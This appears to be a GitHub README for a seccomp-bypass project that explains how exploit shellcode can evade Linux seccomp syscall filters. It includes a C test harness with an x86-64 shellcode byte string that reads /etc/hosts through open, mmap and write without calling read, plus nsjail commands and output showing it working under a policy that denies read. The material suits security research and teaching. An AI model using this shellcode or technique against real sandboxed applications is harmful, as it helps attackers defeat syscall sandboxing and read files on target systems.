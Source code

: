 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. The code below is a contrived application that just executes the shell code we specify.* So no vulnerability is required, but it suffices to prove the point.

&gt;:cat read-with-mmap.c
```
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
 *Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcode that performs the specified action in the case where the specified system calls are disallowed. The shellcode is derived by running `src/gen-shellcode.sh $file.s`.

## Read a file from the filesystem
### Syscalls disallowed: `read`
This example is based on shellcode from `src/read-with-mmap.s` that reads a target's `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below.

To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy. Try replacing `read` with any of `open`,`close`,`write`, or `mmap` in the DENY clause. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $HOME/seccomp-bypass/read-with-mmap
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Uid map: inside_uid:360840 outside_uid:360840
[2017-05-12T16:48:04-0700] Gid map: inside_gid:5000 outside_gid:5000
[2017-05-12T16:48:04-0700] Executing '/home/unixist/seccomp-bypass/read-with-mmap' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls disallowed: `read`, `write`, `mmap`
coming soon
